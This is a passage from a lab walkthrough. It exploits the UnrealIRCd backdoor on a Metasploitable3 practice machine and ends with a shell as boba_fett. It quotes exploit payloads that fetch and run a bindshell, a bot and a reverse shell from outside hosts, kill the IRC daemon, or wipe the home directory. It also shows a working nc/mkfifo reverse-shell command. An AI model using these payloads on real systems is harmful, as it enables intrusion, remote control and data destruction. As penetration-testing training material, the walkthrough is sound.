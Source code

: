 From the function, it looks like the exploit is to connect and then send "AB;" + the payload + "\n"

Examining the perl script the same way, `searchsploit -x exploits/linux/remote/13853.pl`, we can the following at the top section

```perl
## Payload options
my $payload1 = 'AB; cd /tmp; wget http://packetstormsecurity.org/groups/synnergy/bindshell-unix -O bindshell; chmod +x bindshell; ./bindshell &';
my $payload2 = 'AB; cd /tmp; wget http://efnetbs.webs.com/bot.txt -O bot; chmod +x bot; ./bot &';
my $payload3 = 'AB; cd /tmp; wget http://efnetbs.webs.com/r.txt -O rshell; chmod +x rshell; ./rshell &';
my $payload4 = 'AB; killall ircd';
my $payload5 = 'AB; cd ~; /bin/rm -fr ~/*;/bin/rm -fr *';
```

It appears to be sending the same payload

## Getting Shell as boba_fett

Based on what I found during the recon stage, I will just connect with `nc` and enter `AB; [some command]` and get it running. I will test with a ping and use tcpdump to listen for icmp traffic:

```
root@cyb3r:~# nc 192.168.4.132 6697
:irc.TestIRC.net NOTICE AUTH :*** Looking up your hostname...
:irc.TestIRC.net NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
AB;ping -c 1 192.168.4.129
:irc.TestIRC.net 451 AB;ping :You have not registered
```

And in another windows, I can see that my attacker machine receives that pings. This proves that RCE is possible.

```
root@cyb3r:~# tcpdump -ni eth0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
11:20:47.780631 IP 192.168.4.132 > 192.168.4.129: ICMP echo request, id 3340, seq 1, length 64
11:20:47.780684 IP 192.168.4.129 > 192.168.4.132: ICMP echo reply, id 3340, seq 1, length 64
```

Now to get a shell I will use the try and tested command below to receive a reverse shell from the IRC Server

```
root@cyb3r:~# nc 192.168.4.132 6697
:irc.TestIRC.net NOTICE AUTH :*** Looking up your hostname...
:irc.TestIRC.net NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.4.129 443 >/tmp/f
```

And in other window, I receive the shell from the server:

```
root@cyb3r:~# rlwrap nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 192.168.4.132.
Ncat: Connection from 192.168.4.132:33625.
bash: cannot set terminal process group (1225): Inappropriate ioctl for device
bash: no job control in this shell
boba_fett@metasploitable3-ub1404:/opt/unrealircd/Unreal3.2$ whoami
whoami
boba_fett
boba_fett@metasploitable3-ub1404:/opt/unrealircd/Unreal3.2$

```
